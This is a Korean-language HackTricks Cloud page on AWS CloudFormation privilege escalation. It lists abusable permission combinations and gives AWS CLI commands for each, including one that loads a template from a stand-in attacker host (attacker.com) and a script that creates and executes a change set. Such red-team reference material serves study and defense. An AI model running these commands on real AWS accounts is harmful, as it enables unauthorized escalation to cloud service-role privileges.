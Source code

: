 # AWS - Cloudformation 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **사용자 정의 템플릿을 사용하여 자신의 서버에 호스팅된 CloudFormation 스택**을 생성함으로써 **지정된 역할의 권한으로 작업을 실행**하여 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에서는 추가 권한 **`cloudformation:DescribeStacks`**을 사용한 **악용 예제**가 있습니다:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**잠재적인 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 이전 시나리오와 마찬가지로 기존의 cloudformation 스택을 **악용하여 권한을 상승**시킬 수 있습니다.
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 스택에 대한 **`UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용될 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할에 대한 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한을 가지고 있지만 **`iam:PassRole` 권한이 없는 경우**에도 여전히 사용되는 스택을 **업데이트**하고 이미 연결된 **IAM 역할을 악용**할 수 있습니다. 이전 섹션에서 악용 예제를 확인하세요 (단, 업데이트에서 어떤 역할도 지정하지 마세요).

`cloudformation:SetStackPolicy` 권한은 스택에 대한 **`UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용될 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**역할을 전달하고 ChangeSet을 생성 및 실행**할 수 있는 권한을 가진 공격자는 CreateStack 또는 UpdateStack과 마찬가지로 **새로운 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다.

다음 악용은 **ChangeSet 권한**을 사용하여 스택을 생성하는 [**CreateStack 악용**](./#iam-passrole-cloudformation-createstack)의 변형입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 스택에 대한 `ChangeSet` 권한을 부여하여 공격을 수행하는 데 사용될 수 있습니다.

**잠재적 영향:** CloudFormation 서비스 역할에 대한 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이전 방법과 유사하지만 **IAM 역할을 전달하지 않는** 방법입니다. 이미 연결된 역할을 악용할 수 있으므로 매개변수를 수정하기만 하면 됩니다.
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 클라우드포메이션 서비스 역할로의 권한 상승 (Privesc).

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 악용하여 임의의 클라우드포메이션 역할을 악용하기 위해 StackSet을 생성/업데이트할 수 있습니다.

**잠재적 영향:** 클라우드포메이션 서비스 역할로의 권한 상승 (Privesc).

### `cloudformation:UpdateStackSet`

공격자는 이 권한을 사용하여 passRole 권한 없이도 연결된 클라우드포메이션 역할을 악용하기 위해 StackSet을 업데이트할 수 있습니다.

**잠재적 영향:** 연결된 클라우드포메이션 역할로의 권한 상승 (Privesc).

## 참고 자료

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
